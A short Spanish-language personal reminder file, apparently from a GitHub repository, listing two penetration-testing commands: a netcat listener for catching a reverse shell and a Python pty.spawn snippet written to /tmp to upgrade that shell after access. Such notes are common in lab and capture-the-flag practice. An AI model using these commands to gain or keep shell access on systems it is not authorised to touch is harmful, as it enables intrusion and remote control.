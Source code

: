 # CommandsRemainder
#Escuchar Reverse Shell NetCat
nc -v -n -l -p 1234

Obtener shell despues de entrar con reverse 
echo "import pty; pty.spawn('/bin/bash')" > /tmp/asdf.py
python /tmp/asdf.py
